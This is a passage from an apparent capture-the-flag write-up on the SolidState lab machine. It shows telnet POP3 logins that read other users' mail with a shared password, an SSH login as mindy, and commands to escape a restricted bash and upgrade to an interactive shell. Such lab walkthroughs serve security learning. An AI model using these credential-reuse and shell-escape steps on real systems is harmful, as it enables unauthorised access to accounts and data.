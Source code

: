 ```bash
telnet 10.10.10.51 110
  USER thomas
  PASS oldb123
  list
  quit
telnet 10.10.10.51 110
  USER john
  PASS oldb123
  list
  retr 1
  quit
telnet 10.10.10.51 110
  USER mindy
  PASS oldb123
  retr 1
  retr 2
  quit
```

<br />
<img src="{{ site.img_path }}/solidstate_writeup/SolidState_19.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/solidstate_writeup/SolidState_20.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/solidstate_writeup/SolidState_21.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/solidstate_writeup/SolidState_22.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/solidstate_writeup/SolidState_23.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

I connect through **SSH** with **mindy's** credentials and succeed in accessing the system, but with a **Restricted Bash** that does not allow me to execute many commands, nor do I have permissions to modify my **SHELL** environment variable to change the shell that is assigned by default to the compromised **mindy** account. There are multiple **[methods to bypass a Restricted Shell](https://www.hackingarticles.in/multiple-methods-to-bypass-restricted-shell/){:target="_blank"}**, so by using one of them I can access a bash shell and after performing a console treatment I can perform the basic system enumeration commands and access the contents of the first flag.

```bash
ssh mindy@10.10.10.51
echo $SHELL
export SHELL=bash
echo $PATH
cat /etc/shells

ssh mindy@10.10.10.51 bash
# Or:
echo $PATH
export PATH=....

whoami
tty
id

which python
python -c "import pty;pty.spawn('/bin/bash')"
[Ctrl^Z]
stty raw -echo; fg
reset xterm
export TERM=xterm
```